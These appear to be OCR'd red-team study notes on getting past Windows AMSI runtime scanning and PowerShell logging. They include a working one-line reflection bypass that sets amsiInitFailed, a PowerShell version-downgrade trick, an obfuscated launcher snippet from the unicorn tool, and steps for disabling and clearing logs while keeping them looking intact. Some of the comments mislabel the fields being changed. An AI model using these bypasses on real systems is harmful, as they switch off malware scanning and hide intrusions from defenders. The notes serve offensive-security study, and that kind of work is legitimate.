 ## Runtime Detection
- Scan code before execution
  - directly from memory
- CRL = Common Language Runtime
- DLR = Dynamic Language Runtime
- [Amsi Fail](http://amsi.fail/)

- How
  - Donwgrade powershell
  - Powershell -Version 2
  
```
https://github.com/trustedsec/unicorn

full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

- **Reflection**
```
# Reflection to modify and bypass AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# 1 - use assembly from Ref.Assembly
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')

# 2 - obtain .net assembly for PSEtwLogProvider, piped from the previous part of the command
.GetField('amsiInitFailed','NonPublic,Static')

# 3 - set field m_enabled do previous stored value
.SetValue($null,$true)
```

## Evade Logging
- Methodology
  - disable logging (1)
  - keep integrity (2)
  - clear logs (3)

- Logs are forwarded from endpoints to central device
- just deleting them may raise alerts
- Append to a .ps1 script

- **Check amount registered log entries - (2)**
```
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count

# Check Event Viewer
Microsoft/Windows/PowerShell/Operational 
```
